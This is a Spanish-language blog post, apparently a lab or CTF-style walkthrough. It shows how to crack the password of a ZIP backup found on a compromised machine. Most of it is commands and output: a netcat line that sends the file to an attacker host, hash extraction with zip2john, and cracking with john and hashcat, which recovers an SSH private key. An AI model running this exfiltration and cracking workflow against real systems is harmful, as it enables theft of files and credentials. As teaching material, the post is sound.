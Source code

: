 ```yaml
---
date: 2023-03-12T22:25:05.000Z
layout: post
comments: true
title: ZIP cracking
subtitle: 'técnica de recuperación'
description: >-
image: >-
    http://imgfz.com/i/onKZRPH.png
optimized_image: >-
    http://imgfz.com/i/onKZRPH.png
category: ciberseguridad
tags: 
  - hacking
  - Wireshark
  - hashcat
  - john
  - zip2john
author: Felipe Canales Cayuqueo
paginate: true
---
```


Es el proceso de intentar recuperar la contraseña de un archivo zip cifrado sin tener que conocerla. Se realiza mediante el uso de herramientas de cracking que intentan diferentes combinaciones de contraseñas hasta encontrar la correcta.

### Ejemplo práctico

En este caso tenemos el caso de una máquina víctima en que se ingresó desde una web y se detecta un backup para acceder como un usuario:

```bash
www-data@user:/var/backups$ ls
alternatives.tar.0     alternatives.tar.2.gz  dpkg.arch.0     dpkg.arch.2.gz	 dpkg.diversions.1.gz  dpkg.statoverride.0     dpkg.statoverride.2.gz  dpkg.status.1.gz  user_backup.zip
alternatives.tar.1.gz  apt.extended_states.0  dpkg.arch.1.gz  dpkg.diversions.0  dpkg.diversions.2.gz  dpkg.statoverride.1.gz  dpkg.status.0	       dpkg.status.2.gz
```

Nos enviamos el zip a la máquina atacante por medio de netcat:

```bash
www-data@user:/var/backups$ nc 10.1.1.19 4646 < user_backup.zip 
```

Y lo recibimos en la máquina de la siguiente forma:

```bash
┌─[root@kali]─[/home/user/zip]
└──╼ nc -nlvp 4646 > user_backup.zip    
listening on [any] 4646 ...
connect to [10.1.1.19] from (UNKNOWN) [10.1.1.40] 56460
^C

┌─[root@kali]─[/home/user/zip]
└──╼ ls
user_backup.zip
```

Una vez lo tenemos en nuestra máquina atacante, verificamos abrirlo:

```bash
┌─[root@kali]─[/home/user/zip]
└──╼ unzip user_backup.zip        
Archive:  user_backup.zip
[user_backup.zip] id_rsa password: 
   skipping: id_rsa                  incorrect password
   skipping: id_rsa.pub              incorrect password
   skipping: my_password.txt         incorrect password
   skipping: easysysinfo.c           incorrect password
```

Ahora necesitamos obtener un hash del archivo zip por medio de la herramienta ```zip2john```, incluida en el paquete John the Ripper que permite extraer el hash de contraseñas de archivos zip.

```bash
┌─[root@kali]─[/home/user/zip]
└──╼ zip2john user_backup.zip > hash
ver 2.0 efh 5455 efh 7875 user_backup.zip/id_rsa PKZIP Encr: TS_chk, cmplen=1979, decmplen=2590, crc=A144E09A ts=0298 cs=0298 type=8
ver 2.0 efh 5455 efh 7875 user_backup.zip/id_rsa.pub PKZIP Encr: TS_chk, cmplen=470, decmplen=563, crc=41C30277 ts=029A cs=029a type=8
ver 1.0 efh 5455 efh 7875 ** 2b ** user_backup.zip/my_password.txt PKZIP Encr: TS_chk, cmplen=35, decmplen=23, crc=21E9B663 ts=02BA cs=02ba type=0
ver 2.0 efh 5455 efh 7875 user_backup.zip/easysysinfo.c PKZIP Encr: TS_chk, cmplen=115, decmplen=148, crc=A256BBD9 ts=0170 cs=0170 type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.

┌─[root@kali]─[/home/user/zip]
└──╼ cat hash  
user_backup.zip:$pkzip$4*1*1*0*8*24*0170*ec4fd2b0aa20f56edb8a937f1139b2d2629a0cae87a5fc2350b0c4162c0c397334b2d3ad*1*0*8*24*029a*7bf140f80a405c4cf07debe3636404195407270f1d414555d6dc8b670dfd98659a733cb0*1*0*8*24*0298*625ef25ed71ddc48eaa744529308a8ccb41ce3deb3d707da114f2fb6f56de89adc7060e4*2*0*23*17*21e9b663*a35*49*0*23*02ba*9c8949619fb53f6d8f1f200bfedaf3321542d0d588aca8f8a1c5da5113463a151a5058*$/pkzip$::user_backup.zip:my_password.txt, easysysinfo.c, id_rsa.pub, id_rsa:user_backup.zip
```

Una vez obtenemos el hash, los crackeamos por medio de ```john```:

```bash
┌─[root@kali]─[/home/user/zip]
└──╼ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!randybaby       (user_backup.zip)     
1g 0:00:00:04 DONE (2023-03-04 19:31) 0.2293g/s 3289Kp/s 3289Kc/s 3289KC/s "2parrow"..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Para hashcat se podría realizar lo siguiente:

```bash
hashcat.exe -m 17200 -a 0 -o output.txt --force --potfile-disable hash.txt rockyou.txt
```

Detectamos que la contraseña es ```!randybaby``` y la probamos para acceder:


```bash
┌─[root@kali]─[/home/user/zip]
└──╼ unzip user_backup.zip 
Archive:  user_backup.zip
[user_backup.zip] id_rsa password: 
  inflating: id_rsa                  
  inflating: id_rsa.pub              
 extracting: my_password.txt         
  inflating: easysysinfo.c 

┌─[root@kali]─[/home/user/zip]
└──╼ ls
easysysinfo.c  hash  id_rsa  id_rsa.pub  my_password.txt  user_backup.zip

```

Como se aprecia obtenemos acceso y podemos observar los archivos de la contraseña y del id_rsa, que se podría usar dando los privilegios adecuados ```chmod 600 id_rsa```.


